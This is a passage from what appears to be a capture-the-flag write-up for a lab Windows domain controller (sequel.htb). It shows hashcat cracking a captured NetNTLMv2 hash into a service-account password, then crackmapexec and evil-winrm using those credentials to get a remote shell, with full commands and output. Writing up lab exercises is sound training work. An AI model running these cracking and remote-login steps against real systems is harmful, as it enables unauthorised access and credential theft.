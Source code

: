 We can now hop to my host OS and use `hashcat` to crack the `NTLMv2` hash.

```powershell
PS C:\Tools\Hashcat> .\hashcat.exe .\sql_svc.hash ..\Wordlists\rockyou.txt
.
.
5600 | NetNTLMv2 | Network Protocol
.
.
SQL_SVC::sequel:aaaaaaaaaaaaaaaa:4ec19fdc5c4ba3ab5ea3774187b5f385:0101000000000000807a669c709dd901cc7f5af4f95c760f0000000001001000500058006e005200690043004100740003001000500058006e0052006900430041007400020010006d0074006100740058004b0069005800040010006d0074006100740058004b006900580007000800807a669c709dd90106000400020000000800300030000000000000000000000000300000115adc3d0fc18217cf60cf08c80ea3442c0cc5e81825de469ed7f9eb469f94200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380038000000000000000000:REGGIE1234ronnie
```

We have now a new set of credentials: `sql_svc:REGGIE1234ronnie`.

Since we saw `WINRM` ports open we can confirm that we can login as user `sql_svc` via `WINRM` in crackmapexec.

```bash
➜  Escape crackmapexec winrm sequel.htb -u 'sql_svc' -p 'REGGIE1234ronnie' 
SMB         sequel.htb      5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        sequel.htb      5985   DC               [*] http://sequel.htb:5985/wsman
WINRM       sequel.htb      5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
```

## Shell as sql_svc

We confirmed that we indeed can log in via `WINRM` as user `sql_svc`. Let's use `evil-winrm` to get a shell.

```bash
➜  Escape evil-winrm -i sequel.htb -u sql_svc -p REGGIE1234ronnie

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\sql_svc\Documents>
```

We still do not have access to `user.txt` flag so let's enumerate the filesystem.

```powershell
*Evil-WinRM* PS C:\> ls


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         2/1/2023   8:15 PM                PerfLogs
d-r---         2/6/2023  12:08 PM                Program Files
d-----       11/19/2022   3:51 AM                Program Files (x86)
d-----       11/19/2022   3:51 AM                Public
d-----         2/1/2023   1:02 PM                SQLServer
d-r---         2/1/2023   1:55 PM                Users
```